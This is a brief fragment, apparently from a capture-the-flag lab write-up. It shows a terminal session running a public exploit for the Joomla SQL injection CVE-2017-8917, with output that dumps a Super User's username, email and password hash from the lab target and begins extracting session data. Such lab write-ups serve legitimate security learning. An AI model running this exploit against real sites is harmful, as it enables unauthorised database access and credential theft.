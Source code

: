 

https://github.com/XiphosResearch/exploits/tree/master/Joomblah

```sh
┌──(kali㉿kali)-[~]
└─$ python3 ~/exploits/CVE-2017-8917.py
 [-] Fetching CSRF token
 [-] Testing SQLi
  -  Found table: fb9j5_users
  -  Extracting users from fb9j5_users
 [$] Found user ['811', 'Super User', 'jonah', 'jonah@tryhackme.com', '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm', '', '']
  -  Extracting sessions from fb9j5_session

```